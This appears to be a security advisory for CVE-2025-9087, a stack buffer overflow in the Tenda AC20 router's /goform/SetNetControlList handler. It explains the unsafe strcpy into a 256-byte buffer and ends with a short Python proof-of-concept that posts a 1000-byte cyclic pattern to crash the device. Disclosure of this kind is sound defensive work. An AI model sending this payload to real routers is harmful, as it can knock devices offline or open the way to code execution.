



# Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) formSetQosBand

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetNetControlList` endpoint. The flaw resides in the `set_qosMib_list` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details


*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetNetControlList`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: CVE-2025-9087
  
*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `formSetQosBand` function and its dependent `set_qosMib_list` function. The call chain and key operations are as follows:


1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `formSetQosBand` and directly passed to `set_qosMib_list` for QoS bandwidth control rule processing, with no initial input validation.

2.  **Rule Parsing**: `set_qosMib_list` splits the `list` input by a delimiter (controlled by the second parameter `a2`, value 10) using `strchr`. Each split segment is treated as a QoS rule entry.

3.  **Unsafe Copy**: For each split rule entry, the critical unsafe operation occurs:

*   `strcpy(v8, s)`: Copies the user-controlled rule segment (`s`, derived from `list`) into `v8`, a fixed-size 256-byte stack buffer.

*   `strcpy` does not check the length of `s` against the size of `v8`. If `s` exceeds 255 bytes (plus the null terminator), it will overflow the `v8` buffer.

1.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v8` (e.g., via `sscanf(v8, ";%[^;];%[^;];%[^;];%[^;];", ...)` or `sscanf(v8, "%[^\r]\r%[^\r]\r%[^\r]\r%s", ...)`). Even if parsing is intended to extract specific fields, the prior `strcpy` already introduces the overflow risk.

If the user-controlled `list` parameter contains a rule segment longer than 255 bytes, `strcpy(v8, s)` will overflow the 256-byte `v8` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.



## PoC: Python Exploit Script

```
from pwn import *
import requests
url = "http://192.168.XXX.XXX/goform/SetNetControlList"
cookie = {"Cookie":"password=rfl1qw"}
data = {"list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```

This script sends a crafted `list` parameter containing an overly long QoS rule segment. When processed by `set_qosMib_list`, the `strcpy(v8, s)` call will overflow the `v8` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).

